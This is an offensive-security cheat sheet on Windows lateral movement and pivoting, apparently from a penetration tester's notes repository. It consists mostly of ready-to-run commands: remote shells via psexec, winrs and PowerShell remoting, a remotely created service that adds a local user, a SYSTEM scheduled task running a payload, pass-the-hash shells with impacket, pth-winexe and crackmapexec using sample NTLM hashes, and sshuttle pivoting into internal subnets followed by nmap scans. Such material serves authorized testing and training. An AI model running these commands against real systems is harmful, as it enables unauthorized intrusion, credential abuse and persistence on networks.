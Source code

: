 # Lateral Movement and Pivoting



## Table of contents

##### ➤ Windows - Spawning a process remotely
* [1. PSEXEC](#Psexec)
* [2. Remote Process Creation Using WinRM](#Remote-Process-Creation-Using-WinRM)
* [3. Remotely Creating Services Using sc](#Remotely-Creating-Services-Using-SC)
* [4. Creating Scheduled Tasks Remotely](#Creating-Scheduled-Tasks-Remotely)

##### ➤ Windows - Gain remote shell
* [1. Pass The Hash - Passing the hash methods](#pth---pass-the-hash-methods)
* [2. Using valid credentials](#remote-shell-using-password)


##### ➤ Pivoting
* [1. Proxychains method](#proxychains)
* [2. Sshuttle method](#sshuttle)
``` ```
``` ```
## Psexec

- Ports: 445/TCP (SMB)
- Required Group Memberships: Administrators
- Part of sysinternals 

#### Commands
```
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```

``` ```
``` ```
## Remote Process Creation Using WinRM

- Ports: 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Remote Management Users

#### Using winrs.exe :
```
winrs.exe -u:Administrator -p:Mystrongpassword -r:target cmd
```

#### Using Powershell directly :

###### 1. create a PSCredential object :
```
$username = 'Administrator';
$password = 'Mystrongpassword';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
````

###### 2.A. Create an interactive session using Enter-PSSession cmdlet :
```
Enter-PSSession -Computername TARGET -Credential $credential
```

###### 2.B Run only a specific command 
```
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```


``` ```
``` ```
## Remotely Creating Services Using sc

- Ports:
  -  135/TCP, 49152-65535/TCP (DCE/RPC)
  - 445/TCP (RPC over SMB Named Pipes)
  - 139/TCP (RPC over SMB Named Pipes)
- Required Group Memberships: Administrators

#### 1. create and start a service named "SERVICENAME" using the following commands:
```
sc.exe \\TARGET create SERVICENAME binPath= "net user USERNAME PASSWORD /add" start= auto
sc.exe \\TARGET start SERVICENAME
```
***Notes :*** The "net user" command will be executed when the service is started, creating a new local user on the system. Since the operating system is in charge of starting the service, you won't be able to look at the command output.

####  2. Stop and delete the service
```
sc.exe \\TARGET stop SERVICENAME
sc.exe \\TARGET delete SERVICENAME
```

``` ```
``` ```
## Creating Scheduled Tasks Remotely

Another Windows feature we can use is Scheduled Tasks. You can create and run one remotely with schtasks, available in any Windows installation. 

#### Create a task named MYTASK, we can use the following commands:

```
schtasks /s TARGET /RU "SYSTEM" /create /tn "MYTASK" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/2023 /st 00:00 
schtasks /s TARGET /run /TN "MYTASK" 
```

***Notes :*** We set the schedule type (/sc) to ONCE, which means the task is intended to be run only once at the specified time and date. Since we will be running the task manually, the starting date (/sd) and starting time (/st) won't matter much anyway. Since the system will run the scheduled task, the command's output won't be available to us, making this a blind attack.


#### Delete the scheduled task
```
schtasks /S TARGET /TN "MYTASK" /DELETE /F
```



``` ```
``` ```
## PTH - Pass the hash methods

Article : https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/

##### ➤  PTH-winexe

Install
```
sudo apt install passing-the-hash
```

Pass the hash
```
#From the kali linux machine
pth-winexe -U 'admin%hash' //10.0.0.1 cmd.exe
pth-winexe -U 'admin%ad3b435b51404eeaad3b435b51404ee:32196B56FFE6F45E294117B91A83BF38a //10.0.0.1 cmd.exe
```

**Note:** Remember the full hash includes both the LM and NTLM hash, separated by a colon

##### ➤  PTH-smbclient
```
pth-smbclient -U ignite/adminr%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //10.0.0.1/c$
```

##### ➤  psexec.py (impacket)
```
python3 psexec.py -hashes ad3b435b51404eeaad3b435b51404ee:32196B56FFE6F45E294117B91A83BF38a admin@10.0.0.1
```

**Note:** When you received this error "[-] [Errno Connection error (10.0.0.1:445)] [Errno 113] No route to host", use wmiexec.py


##### ➤  smbclient.py (impacket)
```
python /opt/impacket/examples/smbclient.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/admin@10.0.0.1
```

##### ➤  wmiexec.py (impacket)
```
python3 wmiexec.py -hashes ad3b435b51404eeaad3b435b51404ee:32196B56FFE6F45E294117B91A83BF38a admin@10.0.0.1
```

##### ➤  Crackmapexec
```
crackmapexec smb 10.0.0.1 -u Admin -H 32196B56FFE6F45E294117B91A83BF38 -x ipconfig
```

##### ➤  wmiexec.exe
```
wmiexec.exe -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Admin@10.0.0.1
```


``` ```
``` ```
## Remote shell using password

##### ➤  wmiexec.py (impacket)
```
wmiexec.py active.htb/administrator:mysuperstrongpassword@10.10.10.1
```


## Proxychains



## Sshuttle

##### ➤  Installation

https://github.com/sshuttle/sshuttle?tab=readme-ov-file

```
apt-get install sshuttle
```

##### ➤  Usage
```
# Generate the pivot using ssh password
# sshuttle -vr <compromised-user>@<compromised-ip-machine-used-to-pivoting> <internal-subnet-targetted>
sshuttle -vr root@10.0.0.1 172.1.0.0/16 <172.2.0.0/16 ...>

# Generate the pivot using ssh key
sshuttle -vr root@10.0.0.1 -e 'ssh -i /home/attackeruser/.ssh/id_rsa' 172.1.0.0/16 <172.2.0.0/16 ...>

Note: Be careful to use the correct previously generated id_rsa. The user location is /home/username/.ssh/id_rsa but for the root user is /root/.ssh.id_rsa

#Execute command from kali another kali shell
nmap -sn 172.16.0.0/16 -Pn
nmap -sT -Pn -p80,443 172.16.1.16 -Pn
```

